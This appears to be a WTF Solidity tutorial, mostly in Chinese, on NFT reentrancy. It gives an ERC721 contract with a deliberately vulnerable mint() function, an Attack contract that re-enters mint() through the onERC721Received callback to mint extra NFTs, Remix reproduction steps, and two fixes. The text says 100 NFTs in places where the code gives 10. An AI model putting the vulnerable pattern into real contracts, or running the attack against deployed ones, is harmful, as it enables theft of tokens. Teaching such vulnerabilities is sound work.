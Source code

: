 ```yaml
---
title: S16. NFT Reentrancy Attack
tags:
    - solidity
    - security
    - fallback
    - nft
    - erc721
    - erc1155
---
```


# WTF Solidity S16. NFT Reentrancy Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@22X_____](https://twitter.com/22X_____)

-----

这一讲，我们将介绍NFT合约的重入攻击漏洞，并攻击一个有漏洞的NFT合约，铸造100个NFT。

## NFT重入风险

我们在[S01 重入攻击](https://github.com/AmazingAng/WTFSolidity/blob/main/S01_ReentrancyAttack/readme.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（[ERC721](https://github.com/AmazingAng/WTFSolidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTFSolidity/blob/main/40_ERC1155/readme.md)）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 `ERC721` 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 `ERC721` 和 `ERC1155` 有潜在重入风险的函数：

![](./img/S16-1.png)

## 漏洞例子

下面我们学习一个有重入漏洞的NFT合约例子。这是一个`ERC721`合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了`ERC721`合约，它主要有 `2` 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 `2` 个函数：
- 构造函数: 初始化 `ERC721` NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用`ERC721`合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了`IERC721Receiver`合约，它有 `1` 个状态变量`nft`记录了有漏洞的NFT合约地址。它有 `3` 个函数:
- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造10个NFT。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造100个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Remix复现

1. 部署`NFTReentrancy`合约。
2. 部署`Attack`合约，参数填`NFTReentrancy`合约地址。
3. 调用`Attack`合约的`attack()`函数发起攻击。
4. 调用`NFTReentrancy`合约的`balanceOf()`函数查询`Attack`合约的持仓，可以看到持有`10`个NFT，攻击成功。

![](./img/S16-2.png)

## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

  ```solidity
      function mint() payable external {
          // 检查是否mint过
          require(mintedAddress[msg.sender] == false);
          // 增加total supply
          totalSupply++;
          // 记录mint过的地址
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)

## 总结

这一讲，我们介绍了NFT的重入攻击漏洞，并攻击了一个有漏洞的NFT合约，铸造了100个NFT。目前主要有两种预防重入攻击的办法：检查-影响-交互模式（checks-effect-interaction）和重入锁。